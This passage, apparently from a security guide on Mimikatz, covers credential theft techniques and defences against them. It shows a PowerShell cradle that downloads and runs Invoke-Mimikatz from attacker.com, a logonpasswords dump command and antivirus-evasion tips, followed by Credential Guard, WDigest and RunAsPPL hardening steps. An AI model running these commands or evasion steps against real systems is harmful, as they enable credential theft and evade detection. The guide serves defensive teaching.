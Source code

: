 ### 2. In-Memory Execution (Avoid Disk Writes)
```powershell
# PowerShell cradle (download and execute in memory)
IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -Command "privilege::debug sekurlsa::logonpasswords"

# Use SafetyKatz (modified version with AV evasion)
# Use SharpKatz (C# implementation, different signatures)
```

### 3. Obfuscation
- Rename executable (mimikatz.exe → powershell.exe)
- Change strings in binary (recompile from source)
- Pack/encrypt executable with custom crypter
- Use invoke-obfuscation on PowerShell wrappers

---

## Defensive Strategies & Detection

### 1. Enable Credential Guard (Most Effective)
```powershell
# Isolates LSASS in virtualized container (VBS)
# Requires: Windows 10/11 Enterprise, Server 2016+, TPM 2.0, UEFI

# Enable via Group Policy:
Computer Configuration > Administrative Templates > System > Device Guard
> Turn On Virtualization Based Security: Enabled
> Credential Guard Configuration: Enabled with UEFI lock

# Verify enabled:
msinfo32.exe  # Check "Credential Guard" status
```

**Impact:** Completely prevents sekurlsa module from working.

### 2. Disable WDigest (Prevent Plaintext Passwords)
```powershell
# WDigest stores plaintext passwords in memory (legacy protocol)
# Disabled by default in Windows 8.1+/Server 2012 R2+

# Ensure it's disabled:
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f

# Apply via GPO:
Computer Configuration > Windows Settings > Security Settings > Local Policies
> Security Options > Network security: Do not store LAN Manager hash
```

### 3. Protected Process Light (PPL) for LSASS
```powershell
# Makes LSASS a protected process (harder to access)
# Enabled by default in Windows 8.1+/Server 2012 R2+ with Secure Boot

# Verify/Enable RunAsPPL:
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v RunAsPPL /t REG_DWORD /d 1 /f

# Requires reboot
shutdown /r /t 0
```
